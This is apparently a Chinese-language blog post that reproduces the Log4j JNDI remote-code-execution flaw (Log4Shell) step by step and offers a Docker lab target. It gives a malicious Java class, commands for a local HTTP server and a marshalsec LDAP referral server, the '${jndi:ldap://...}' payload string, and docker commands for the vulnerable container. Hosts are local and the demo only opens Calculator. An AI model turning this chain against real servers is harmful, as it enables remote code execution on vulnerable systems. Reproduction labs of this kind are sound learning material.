

# Log4J 漏洞复现+漏洞靶场

昨天晚上朋友圈算是过了年了，一个log4j大伙都忙了起来，看着朋友圈好久没这么热闹了。Apache 的这个log4j这个影响范围的确是大，包括我自己做开发的时候也会用到log4j，这就很尴尬了。

大家也不要在公网上疯狂测试了，我给大家带来了漏洞靶场，攻击视频在下文，一步一步教你。

漏洞原理我改天会详细的写一篇文章出来，今天就主要是复现一下漏洞。

昨晚爆出的log4j rce 是通过lookup触发的漏洞，但jdk1.8.191以上默认不支持ldap协议，对于高版本jdk,则需要一定的依赖。不过为了给大家最简单的说明，我这里还是用jdk1.8.144的版本来运行。


这个漏洞和fastjson的漏洞利用如出一辙，首先需要编写一个恶意类。

```java
public class Exploit {
    public Exploit(){
        try{
            // 要执行的命令
            String[] commands = {"open", "/System/Applications/Calculator.app"};
            Process pc = Runtime.getRuntime().exec(commands);
            pc.waitFor();
        } catch(Exception e){
            e.printStackTrace();
        }
    }

    public static void main(String[] argv) {
        Exploit e = new Exploit();
    }
}
```

这里是弹出计算器

把这个类编译之后会得到一个Exploit.class，然后需要在当前目录下启动一个web服务，

```
python3 -m http.server 8100
```


然后用**[marshalsec](https://github.com/mbechler/marshalsec)** IDAP服务，项目地址：https://github.com/mbechler/marshalsec

```
java -cp /Users/fengxuan/Downloads/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8100/#Exploit"
```


漏洞类

```java

import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;


public class log4j {
    private static final Logger logger = LogManager.getLogger(log4j.class);

    public static void main(String[] args) {
        logger.error(   "${jndi:ldap://127.0.0.1:1389/Exploit}");
    }
}

```

## 最后运行


演示视频：

https://www.bilibili.com/video/bv1WP4y137PP


## 漏洞靶场

为了互联网的安全，也为了给大家学习的环境，有很多同学不知道如何复现，我搭建了一个漏洞靶场，我编写的docker-compose.yml 

地址是：https://github.com/fengxuangit/log4j_vuln

或者直接运行命令

```
docker pull registry.cn-hangzhou.aliyuncs.com/fengxuan/log4j_vuln
docker run -it -d -p 8080:8080 --name log4j_vuln_container registry.cn-hangzhou.aliyuncs.com/fengxuan/log4j_vuln 
docker exec -it log4j_vuln_container /bin/bash
/bin/bash /home/apache-tomcat-8.5.45/bin/startup.sh 
```

然后访问你的8080的端口，按照视频教程玩就行。你的靶场你自己随便玩！


### Infrastructure model

